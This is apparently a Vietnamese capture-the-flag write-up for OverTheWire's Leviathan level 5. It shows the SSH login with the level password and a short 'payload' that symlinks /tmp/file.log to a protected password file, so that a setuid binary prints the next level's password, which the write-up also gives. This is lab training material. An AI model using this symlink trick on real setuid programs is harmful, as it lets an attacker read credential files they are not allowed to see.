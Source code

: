 # 🧪 Leviathan Level 5 Writeup

> **Wargame:** Leviathan – OverTheWire   
> **Level:** leviathan5 → leviathan6    
> **Target:** Tìm mật khẩu cho user `leviathan6`

---

## 🖥️ SSH Đăng nhập

```bash
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
Password: 0dyxT7F4QD
```

## 🔎 Cách thực hiện:   
**Payload:**   
```bash
ls
./leviathan5
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

-Khi chạy file ```leviathan5``` thấy thông báo ```Cannot find /tmp/file.log```    
==>Tạo 1 symlink với lệnh ```ln -s``` chỉ tới ```/etc/leviathan_pass/leviathan6```   

### Key: szo7HDB88w